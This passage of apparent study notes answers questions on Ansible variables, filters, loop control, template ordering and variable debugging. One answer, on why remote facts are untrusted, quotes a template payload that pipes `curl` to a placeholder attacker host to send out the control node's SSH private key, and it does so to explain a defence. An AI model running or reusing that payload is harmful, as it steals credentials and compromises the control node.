- **`dict2items`**: turns `{"vm.swappiness": 1, "kernel.numa_balancing": 0}` into `[{"key": "vm.swappiness", "value": 1}, {"key": "kernel.numa_balancing", "value": 0}]` so a `sysctl` task can loop over `{{ item.key }}` and `{{ item.value }}`.
- **`items2dict`**: reverses `dict2items`, turning a list of `{"key": ..., "value": ...}` dicts back into a single dictionary.
- **`subelements('keys')`**: flattens a one-to-many list of dicts (such as users each holding a list of SSH public `keys`) into `(user_dict, single_key)` pairs (`item.0.name`, `item.1`) so `authorized_key` can install every key across every user in one task.
</details>

<details>
<summary>13. Why is `package: { name: [chrony, rsync, htop, tmux], state: present }` much faster than using `loop: [chrony, rsync, htop, tmux]`?</summary>

When you pass a list directly to **`package:` / `apt:` / `dnf:` (`name: [chrony, rsync, htop, tmux]`)**, Ansible invokes `apt-get` or `dnf` **once in a single package-manager transaction** over a single SSH execution. When you use `loop:`, Ansible uploads and executes the module **four separate times** and forces `apt`/`dnf` to lock the RPM/dpkg database, parse metadata caches, and resolve dependencies four times in a row.
</details>

<details>
<summary>14. What does `loop_control: { label: "{{ item.name }}", index_var: idx, pause: 2 }` do?</summary>

By default, when `loop:` iterates over a list of large dictionaries (such as user records containing SSH keys or password hashes), Ansible prints the **entire dictionary for every item** in the console log—cluttering output and risking secret exposure. Setting **`loop_control: { label: "{{ item.name }}" }`** prints only `item.name` (`ok: [gpu001] => (item=slurm)`), while `index_var: idx` exposes the 0-based loop counter in `idx` and `pause: 2` sleeps 2 seconds between iterations.
</details>

<details>
<summary>15. How do Ansible's network and unit filters (`ansible.utils.ipaddr`, `human_to_bytes`, `ternary`, `combine`) simplify infrastructure templates?</summary>

- **`'10.1.0.0/24' | ansible.utils.ipaddr('10')`**: computes the 10th usable IP in the subnet (`10.1.0.10/24`), validates IP/CIDR formats, or extracts network/broadcast addresses.
- **`'64 GB' | human_to_bytes`**: converts human size strings into exact byte integers.
- **`is_prod | ternary('warn', 'debug')`**: inline conditional returning `'warn'` when `is_prod` is truthy and `'debug'` when falsy.
- **`base_cfg | combine(override_cfg, recursive=True)`**: recursively merges nested dictionaries instead of replacing top-level keys.
</details>

<details>
<summary>16. How do you render embedded YAML or JSON blocks cleanly inside a `.j2` template (`to_nice_yaml` + `indent`, `to_nice_json`)?</summary>

Never format complex nested YAML or JSON by hand inside a Jinja `` loop (a single missing space or trailing comma on the last element breaks the file). Instead, construct the data structure in Ansible variables/filters and serialize it with **`{{ my_data | to_nice_json }}`** or **`{{ k8s_values | to_nice_yaml(indent=2) | indent(4) }}`**, which guarantees syntactically valid, deterministically indented output.
</details>

<details>
<summary>17. Why can an un-sorted dictionary or set in a Jinja2 template cause unnecessary service restarts across a fleet, and how do you prevent it?</summary>

If a template iterates over an unsorted list (`groups['gpu']`) or dynamic set without sorting, any change in inventory file ordering or Python set iteration order changes the line order in the rendered config file—causing `template` to report `changed: true` and fire `notify: Restart slurmctld` even though the semantic configuration did not change. Always pipe collections through **`| sort`** and dictionaries through **`| dictsort`** inside templates.
</details>

<details>
<summary>18. How does lazy variable evaluation (`b: "{{ a }}-suffix"`) work in Ansible, and what error occurs if you write `x: "{{ x }}-1"` in `group_vars`?</summary>

Ansible stores variable definitions in `group_vars`, `host_vars`, and `vars:` as unevaluated templates and **evaluates `{{ ... }}` lazily at the exact moment a task or template consumes the variable**. This lets you define `driver_pkg: "nvidia-driver-{{ nvidia_driver_branch }}"` once in `group_vars/all.yml` while overriding `nvidia_driver_branch: 555` in `host_vars/gpu033.yml`. However, defining a variable in terms of itself (`x: "{{ x }}-1"`) in static variable files causes an infinite self-reference (**`recursive loop detected in template string`**)—use `set_fact` if you need to rebind a variable based on its previous value.
</details>

<details>
<summary>19. What is the fastest workflow for debugging "why did variable `X` get this unexpected value on `gpu001`?"</summary>

1. Check merged static inventory and `group_vars`/`host_vars` resolution without running a playbook:
   `ansible-inventory -i inventories/prod --host gpu001 --yaml`
2. If the value differs at runtime inside a play, check higher-precedence play `vars:`, `vars_files:`, role `vars/`, `set_fact`, and `-e` overrides by running:
   `grep -rn "nvidia_driver_branch" inventories/ roles/ playbooks/`
   and printing `ansible gpu001 -i inventories/prod -m debug -a "var=nvidia_driver_branch"`.
</details>

<details>
<summary>20. Why are facts and registered outputs from target hosts considered untrusted data on the control node?</summary>

When Ansible connects to a compromised target host, the remote root user controls what `/usr/bin/python3` and `/etc/ansible/facts.d/*.fact` return over SSH. If the target returns a fact value containing `{{ lookup('pipe', 'curl attacker.com -d @~/.ssh/id_ed25519') }}` and the control node re-evaluated that string as a Jinja2 template, the compromised target would compromise the control node. Ansible prevents this by wrapping all remote facts and registered strings in **`AnsibleUnsafeText` (`!unsafe`)**, and playbooks must never strip that wrapper or pass remote output into `lookup('pipe', ...)` without `| quote`.
</details>

## Sources and review notes

- **Sources read in full:**
  - `ansible-up-and-running-3rd-edition` — Bas Meijer, Lorin Hochstein & René Moser, *Ansible: Up and Running*, 3rd ed., **Chapter 5: Variables and Facts** (read in full: defining variables in playbooks and `vars_files: [nginx.yml]`, string concatenation with `~`, variable naming restrictions, `register` capturing `command` and `stat` results, subscript `result['stat']['mode']` vs dot `result.stat.mode` and Python dict method collisions like `.values`, `setup` module facts and `filter=`, local custom facts in `/etc/ansible/facts.d/example.fact` accessed via `ansible_local.example.book.title`, `set_fact`, built-in magic variables `hostvars` vs `host_vars/`, `inventory_hostname`, and `groups` iterating `groups.web` for HAProxy `backend web-backend`, and `-e @greetvars.yml` extra vars precedence).
- **Run here:** `python3 code/part04/ansible_variables_facts_lab.py` (3 passed, 0 failed).
- **Explicitly labelled inferences:** The `parse_local_fact_file`, `project_group_hostvars`, `render_haproxy_backend_from_groups`, and `dict2items_and_items2dict_roundtrip` models in `code/part04/ansible_variables_facts.py` and the `/etc/hosts`, `slurm.conf.j2`, and Prometheus `file_sd` `gpu.json` templates are the author's constructions applying *Ansible: Up and Running* Chapter 5 to GPU cluster configurations (plus original study items 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, and 35).
- **Not verified on live hardware:** Live `ansible`, `ansible-playbook`, `setup`, `slurmd -f %s -C`, and HashiCorp Vault lookup commands (`550`, `550.90.07`, `1024`, `990`, `991`, `10.1.0.0/24`, `9400`, `203.0.113.15..38`, `0755`, `0644`, `0600`) are marked (`untested here`) where not executed by `ansible_variables_facts_lab.py`.
